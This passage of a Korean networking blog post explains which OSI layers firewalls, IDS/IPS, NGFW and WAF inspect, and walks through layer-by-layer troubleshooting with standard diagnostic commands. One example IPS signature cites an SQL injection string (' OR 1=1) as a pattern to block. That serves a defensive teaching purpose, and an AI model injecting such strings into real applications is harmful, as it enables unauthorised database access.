  port 80 or port 443
  host 192.168.1.1
  ```
- **디스플레이 필터** (캡처 후 보기 필터): 이미 저장된 데이터에서 필터링. Wireshark 전용 문법 사용.

실무에서는 "일단 다 캡처한 뒤 필터"하는 경우가 많지만, 트래픽이 많은 환경에서는 캡처 필터로 대상을 좁혀두는 게 좋다.

---

## 방화벽, IPS/IDS의 OSI 계층별 동작 방식

보안 장비가 어느 계층에서 동작하는지 이해하면, 장비의 한계와 적용 범위를 파악하기 쉬워진다.

### 계층별 보안 장비 위치

| 장비 | 주요 동작 계층 | 검사 내용 |
|---|---|---|
| 허브 | 1계층 | 신호 증폭만, 보안 기능 없음 |
| 스위치(Port Security, DAI) | 2계층 | MAC 주소, ARP 검증 |
| 패킷 필터링 방화벽 | 3~4계층 | IP 주소, 포트 번호, 프로토콜 |
| Stateful 방화벽 | 3~4계층 | 연결 상태 추적 (세션 테이블) |
| IDS/IPS | 3~7계층 | 패킷 내용, 시그니처/이상 탐지 |
| 차세대 방화벽 (NGFW) | 3~7계층 | 애플리케이션 식별, DPI |
| WAF (Web Application Firewall) | 7계층 | HTTP 요청/응답, XSS, SQLi |

### 패킷 필터링 방화벽 (3~4계층)

가장 기본적인 방화벽이다. IP 주소(3계층)와 포트 번호(4계층)를 기반으로 허용/차단을 결정한다. 패킷 내부 내용은 보지 않는다.

```
규칙 예시:
ALLOW TCP 10.0.0.0/24 → 192.168.1.10:443
DENY  TCP ANY         → 192.168.1.10:22
```

한계: 허용된 포트로 악성 트래픽이 들어와도 막을 수 없다. `TCP 80`을 열어놓으면 HTTP를 가장한 C2 트래픽도 통과한다.

### Stateful 방화벽 (3~4계층 + 세션 추적)

연결 상태를 추적해 "이 패킷이 정상적인 TCP 세션의 일부인가"를 확인한다. 외부에서 들어오는 패킷이 내부에서 시작된 연결의 응답인지 확인하기 때문에, 패킷 필터링보다 훨씬 안전하다.

RST나 FIN 없이 갑자기 중간에 나타난 패킷, 시퀀스 번호가 이상한 패킷 등을 탐지할 수 있다.

### IDS/IPS (3~7계층)

- **IDS (Intrusion Detection System)**: 탐지만 한다. 트래픽을 모니터링하다가 이상 패턴을 발견하면 알림을 보낸다. 인라인이 아닌 스패닝(미러) 포트로 연결하는 경우가 많다.
- **IPS (Intrusion Prevention System)**: 탐지 + 차단. 인라인으로 연결돼 실시간으로 패킷을 막는다.

두 장비 모두 **패킷 내용(페이로드)**을 들여다보는 **DPI(Deep Packet Inspection)**를 사용한다. 7계층까지 분석해서 알려진 공격 시그니처와 비교하거나, 비정상적인 행동 패턴을 탐지한다.

```
예: IPS 시그니처
- HTTP 요청에 "' OR 1=1" 포함 → SQL Injection 차단
- User-Agent에 알려진 스캐너 문자열 → 포트 스캔 탐지
- 단시간 내 동일 IP에서 SYN 수천 개 → SYN Flood 차단
```

### NGFW (Next-Generation Firewall)

기존 Stateful 방화벽 + IPS + 애플리케이션 인식 기능을 합친 장비다.

포트 번호가 아닌 **애플리케이션을 식별**하는 것이 핵심이다. TCP 443이 열려있어도 그게 HTTPS인지, 암호화된 C2 통신인지, BitTorrent인지를 구분할 수 있다. SSL/TLS 복호화 기능도 탑재돼 암호화된 트래픽 내부도 검사한다.

### WAF (Web Application Firewall) — 7계층 전문

HTTP/HTTPS 트래픽에 특화된 방화벽이다. 애플리케이션 레벨의 공격을 막는다.

- XSS, SQL Injection, CSRF, Path Traversal 등 OWASP Top 10 공격 패턴 탐지
- HTTP 요청/응답 헤더, 바디 전체를 분석
- 양성 모델(화이트리스트)과 음성 모델(블랙리스트/시그니처) 모두 지원
- Cloudflare WAF, AWS WAF, ModSecurity 등이 대표적

---

## 실무 시나리오별 트러블슈팅

"뭔가 안 된다"는 신고를 받았을 때, OSI 계층을 기반으로 원인을 좁혀가는 방법을 시나리오별로 정리했다.

### 시나리오 1: "ping은 되는데 curl이 안 된다"

```
ping 192.168.1.10  → 성공
curl http://192.168.1.10  → 실패 (Connection refused 또는 Timeout)
```

**분석**: ping은 ICMP(3계층)로 동작한다. ping이 된다는 건 1~3계층은 정상이라는 의미다.

curl이 안 된다는 건 4계층 이상에 문제가 있다는 뜻이다.

```bash
# 4계층 확인 — 포트가 열려 있는지
nc -zv 192.168.1.10 80     # Connection refused 또는 Timeout?
telnet 192.168.1.10 80

# 서버 측에서 서비스 구동 여부
ss -tulpn | grep :80
netstat -tulpn | grep :80

# 방화벽 확인 (서버 측)
iptables -L -n | grep 80
firewall-cmd --list-all
```

**가능한 원인**:
- 서버에서 웹 서비스(nginx, apache)가 안 떠 있음 → 7계층 문제
- 80 포트가 방화벽에서 막혀 있음 → 4계층 문제
- 서비스가 80이 아닌 다른 포트에서 리스닝 중 → 설정 문제

---

### 시나리오 2: "같은 망에서만 된다, 외부에서 안 된다"

```
내부(192.168.x.x): 접속 성공
외부(인터넷): 접속 실패
```

**분석**: 내부는 2~3계층으로 통신 가능하다. 외부에서 안 된다는 건 라우팅 또는 방화벽 문제다.

```bash
# 외부 → 내부 라우팅 확인
traceroute [외부에서 서버 IP로]

# 서버 측 기본 게이트웨이 설정 확인
ip route show
route -n

# NAT 설정 확인 (공유기 또는 방화벽)
# 서버 응답이 공인 IP로 나가는지 확인

# 방화벽에서 외부 접근 허용 여부
iptables -L FORWARD -n
```

**가능한 원인**:
- 포트 포워딩 미설정 → 공유기/방화벽에서 외부 포트를 내부 서버로 전달 안 됨
- 서버의 기본 게이트웨이가 잘못됨 → 요청은 들어오는데 응답이 나가는 경로가 없음 (asymmetric routing)
- ISP 레벨에서 해당 포트 차단 (25번 포트 차단 등)
- 보안 그룹 / 클라우드 ACL 미설정

---

### 시나리오 3: "SSL 인증서 오류가 난다"

```
브라우저: "연결이 비공개로 설정되어 있지 않습니다" / NET::ERR_CERT_AUTHORITY_INVALID
curl: SSL certificate problem: certificate has expired
```

**분석**: TLS는 6계층에서 동작하지만, 인증서 오류의 원인은 다양하다.

```bash
# 인증서 상세 확인
openssl s_client -connect example.com:443 -servername example.com
# → 인증서 만료일, 발급기관, SAN(Subject Alternative Name) 확인

# 인증서 만료일 빠르게 확인
echo | openssl s_client -connect example.com:443 2>/dev/null | \
  openssl x509 -noout -dates

# 인증서 체인 확인
openssl s_client -connect example.com:443 -showcerts
```

**가능한 원인과 계층**:

| 오류 메시지 | 원인 | 계층 |
|---|---|---|
| Certificate expired | 인증서 만료 | 6계층 |
| Certificate not trusted | 자체 서명 또는 중간 CA 체인 누락 | 6계층 |
| Certificate hostname mismatch | SAN에 도메인이 없음 | 6계층/7계층 |
| Connection timeout | 443 포트 차단 | 4계층 |
| Certificate valid but page errors | 혼합 컨텐츠(HTTP+HTTPS) | 7계층 |

---

### 시나리오 4: "간헐적으로 끊긴다"

```
대부분 정상, 가끔 응답 없음, 재접속하면 됨
```

**분석**: 간헐적 문제는 가장 찾기 어렵다. 계층별로 단서를 모아야 한다.

```bash
# 패킷 손실률 확인 (1~3계층)
ping -c 100 [게이트웨이]  # 패킷 로스 % 확인
mtr [목적지]              # 경로별 손실률 실시간 확인

# TCP 재전송 통계 (4계층)
netstat -s | grep retransmit
ss -ti  # TCP 소켓별 재전송 카운트

# 인터페이스 오류 (1~2계층)
ip -s link show eth0  # RX/TX errors, drops 확인
ethtool eth0          # 듀플렉스, 속도 협상 상태

# 로그에서 타임아웃/RST 기록
dmesg | grep -i "eth\|link\|timeout"
journalctl -u NetworkManager --since "1 hour ago"
```

**가능한 원인**:
- 케이블 불량 → 1계층 (패킷 손실, CRC 오류)
- 포트 속도/듀플렉스 협상 불일치 → 2계층
- 라우팅 경로 변경 (BGP flapping) → 3계층
- TCP 타임아웃 설정이 너무 짧음 → 4계층
- 애플리케이션 메모리 부족, 프로세스 크래시 → 7계층

---

## 실무에서 OSI 계층 사용하는 법

**네트워크 문제가 생겼을 때 아래에서부터 올라가는 것이 기본이다.**

```
1계층: 케이블 연결됐나? 링크 불빛 들어오나?
    ↓
2계층: ARP 테이블에 있나? MAC 주소 충돌 없나?
    ↓
3계층: IP 주소 맞나? 라우팅 테이블 확인. ping 되나?
    ↓
4계층: 포트 열려있나? 방화벽 막혀있나? telnet/nc로 확인
    ↓
7계층: 애플리케이션 설정 맞나? 인증서 유효한가?
```

---

## 각 계층별 대표 명령어 정리

| 계층 | 진단 명령어 | 확인 내용 |
|---|---|---|
| 1계층 | `ethtool eth0`, `ip link` | 링크 상태, 속도 |
| 2계층 | `arp -a`, `ip neigh` | ARP 테이블 |
| 3계층 | `ping`, `traceroute`, `ip route` | 경로, 연결성 |
| 4계층 | `netstat -tulpn`, `ss -tulpn`, `nc -zv host port` | 포트 상태 |
| 7계층 | `curl -v`, `wget`, `nslookup` | HTTP 응답, DNS |

추가로 자주 쓰는 조합:

| 목적 | 명령어 |
|---|---|
| SSL 인증서 확인 | `openssl s_client -connect host:443` |
| TCP 연결 상태 전체 보기 | `ss -tan` |
| TIME_WAIT 소켓 수 | `ss -tan \| grep TIME_WAIT \| wc -l` |
| 패킷 손실률 측정 | `mtr --report --report-cycles 100 [대상]` |
| HTTP 요청 상세 로그 | `curl -v --trace-ascii /dev/stdout [URL]` |
| DNS 쿼리 추적 | `dig +trace google.com` |

---

## 마치며

OSI 7계층을 외울 필요는 없다. 하지만 **"이 문제는 몇 계층에서 생긴 건가?"라고 생각할 수 있게 되면,** 문제를 훨씬 빠르게 풀 수 있다.

이 글에서 다룬 흐름을 정리하면:

- **계층 구조의 존재 이유**: 역할을 분리해서 변경과 진단을 쉽게 만들기 위해
- **캡슐화/역캡슐화**: 각 계층이 헤더를 붙이고 벗기며 데이터를 전달하는 방식
- **TCP 핸드셰이크**: 연결의 신뢰성이 어떻게 보장되는지, TIME_WAIT가 왜 필요한지
- **보안 위협**: 계층마다 다른 공격이 있고, 대응 방법도 달라진다
- **Wireshark**: 이론을 눈으로 확인하는 가장 직접적인 방법
- **트러블슈팅**: 계층 순서대로 올라가며 원인을 좁히는 사고방식

다음 글에서는 3계층과 4계층을 넘나드는 **NAT(Network Address Translation)**가 어떻게 동작하는지 정리할 예정이다. 공유기 안에서 무슨 일이 일어나는지, 포트 포워딩은 왜 필요한지, 가상 환경에서 NAT이 중첩되면 어떤 문제가 생기는지까지 다뤄볼 거다.

---

## 참고문헌

[^1]: ISO/IEC 7498-1. "Information technology — Open Systems Interconnection — Basic Reference Model." ISO, 1994. https://www.iso.org/standard/20269.html

[^2]: Forouzan, B. A. "Data Communications and Networking." McGraw-Hill Education, 5th Edition, 2012.

[^3]: Tanenbaum, A. S., & Wetherall, D. J. "Computer Networks." Pearson, 5th Edition, 2010.

[^4]: Cloudflare. "What is the OSI model?" Cloudflare Learning Center. https://www.cloudflare.com/learning/ddos/glossary/open-systems-interconnection-model-osi/

[^5]: OWASP. "OWASP Top Ten." https://owasp.org/www-project-top-ten/

[^6]: RFC 793. "Transmission Control Protocol." IETF, 1981. https://www.rfc-editor.org/rfc/rfc793

[^7]: PortSwigger. "HTTP request smuggling." Web Security Academy. https://portswigger.net/web-security/request-smuggling

---

## 관련 글

- [🔀 NAT 완전 정복: 공유기 안에서 무슨 일이 일어나는가](/nat-deep-dive/) — OSI 3·4계층 개념을 이해했다면, 다음은 NAT가 패킷을 어떻게 변환하는지 알아보자
- [⚡ JavaScript 비동기 처리 완전 가이드](/javascript-async/) — 네트워크 요청을 코드로 다루는 방법
